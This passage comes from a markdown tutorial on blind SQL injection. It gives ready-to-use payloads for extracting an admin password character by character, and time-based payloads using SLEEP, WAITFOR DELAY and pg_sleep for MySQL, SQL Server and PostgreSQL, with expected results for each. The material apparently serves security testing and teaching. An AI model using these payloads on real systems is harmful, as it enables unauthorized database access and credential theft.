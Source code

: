 Apply the same technique to extract passwords:
```sql
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>64 --+
```

Repeat the binary search for each character position.[10][8]

***

## 8) Time-Based Blind SQL Injection (3 Steps)

Use this when there are no visible changes whatsoever. Monitor response time in Burp Repeater's **Time** column.

### Move 1: Confirm Delay Capability

**MySQL:**
```sql
' AND SLEEP(5) --+
```

**Microsoft SQL Server:**
```sql
'; WAITFOR DELAY '00:00:05' --
```

**PostgreSQL:**
```sql
' AND CASE WHEN 1=1 THEN pg_sleep(5) ELSE 0 END --
```

**Expected result:**
Response takes ~5 seconds instead of normal <1 second.[3][7]

### Move 2: Test Conditional Delays

Check string length with delay as indicator:
```sql
' AND IF(LENGTH(database())=8,SLEEP(5),0) --+
```

**Expected result:**
- If length is 8 → delay of 5 seconds
- If length is not 8 → fast response (<1 second)[9][3]

### Move 3: Extract Characters via Delay

Use binary search with conditional delays:
```sql
' AND IF(ASCII(SUBSTRING(database(),1,1))>64,SLEEP(5),0) --+
' AND IF(ASCII(SUBSTRING(database(),1,1))>96,SLEEP(5),0) --+
```

**Expected result:**
Presence or absence of 5-second delay encodes the answer to each greater-than test.[3]

***

